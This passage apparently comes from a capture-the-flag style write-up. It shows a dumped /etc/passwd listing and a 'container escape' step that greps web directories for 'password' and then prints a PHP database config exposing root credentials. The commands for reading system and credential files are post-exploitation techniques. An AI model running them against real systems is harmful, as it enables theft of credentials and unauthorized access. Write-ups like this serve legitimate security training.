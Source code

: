 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

## Escaping from the Docker container

A simple `grep -rail password` is enough:

```shell
grep -rail password /var/www | grep -viE 'skins|plugins|vendor|localization|roundcube' | grep -ai '.php'
# /var/www/html/mastermailer/index.php
# /var/www/html/mastermailer/program/include/rcmail.php
# /var/www/html/mastermailer/program/include/rcmail_output_html.php
# /var/www/html/mastermailer/installer/config.php
# /var/www/html/mastermailer/installer/test.php
# /var/www/html/mastermailer/config/config.inc.php
# /var/www/html/mastermailer/config/defaults.inc.php
# /var/www/html/mastermailer/index.php.bak
# /var/www/html/oldmanagement/admin/update_student.php
# /var/www/html/oldmanagement/admin/user.php
# /var/www/html/oldmanagement/admin/save_user.php
# /var/www/html/oldmanagement/admin/student.php
# /var/www/html/oldmanagement/admin/conn.php
# /var/www/html/oldmanagement/admin/login_query.php
# /var/www/html/oldmanagement/admin/save_student.php
# /var/www/html/oldmanagement/admin/login.php
# /var/www/html/oldmanagement/admin/update_user.php
# /var/www/html/oldmanagement/login_query.php
# /var/www/html/oldmanagement/login.php
# /var/www/html/employeemanagementsystem/changepassemp.php
# /var/www/html/employeemanagementsystem/process/dbh.php
# /var/www/html/employeemanagementsystem/process/aprocess.php
# /var/www/html/employeemanagementsystem/process/eprocess.php
# /var/www/html/employeemanagementsystem/process/addempprocess.php
# /var/www/html/employeemanagementsystem/edit.php
# /var/www/html/employeemanagementsystem/myprofileup.php
cat /var/www/html/employeemanagementsystem/process/dbh.php
# <?php

# $servername = "localhost";
# $dBUsername = "root";
# $dbPassword = "2020bestyearofmylife";
# $dBName = "ems";

# $conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

# if(!$conn){
#     echo "Databese Connection Failed";
# }

# ?>
```
